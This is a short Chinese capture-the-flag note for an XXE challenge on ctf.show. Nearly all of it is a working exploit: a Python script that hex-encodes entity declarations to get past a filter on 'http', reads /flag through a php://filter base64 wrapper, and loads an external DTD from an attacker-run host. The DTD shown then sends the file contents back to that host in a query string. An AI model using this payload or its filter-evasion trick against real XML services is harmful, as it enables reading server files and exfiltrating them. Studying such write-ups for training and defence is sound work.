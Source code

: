 tags:: CTF/XXE

- # 思路
	- XXE,题目过滤了`http`
	- 使用编码绕过
- # Payload
	- ```python
	  url = "http://bf5c4c6a-f49f-446e-95f6-877823a0c621.challenge.ctf.show/"
	  
	  def encode_xml(s):
	      ans = ""
	      for c in s:
	          ans +="&#x{};".format(hex(ord(c))[2:])
	      return ans
	  
	  evil = """
	      <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
	      <!ENTITY % dtd SYSTEM 'http://ca.xxx.xyz:3001/evil.dtd'>
	  
	  """
	  
	  payload = """\
	  <!DOCTYPE updateProfile [
	      <!ENTITY % uguess "{}">
	      %uguess;
	      %dtd;
	      %send;
	  ]>
	  """.format(
	      encode_xml(evil)
	  )
	  
	  r = base_post(url, data = payload)
	  
	  print(r.text)
	  ```
	- 服务器
		- ```
		  root@VM-a1YYrO2dEe63:~/test# cat evil.dtd
		  <!ENTITY % all
		      "<!ENTITY &#x25; send SYSTEM 'http://ca.xxx.xyz:3001/?data=%file;'>"
		  >
		  %all;
		  ```
-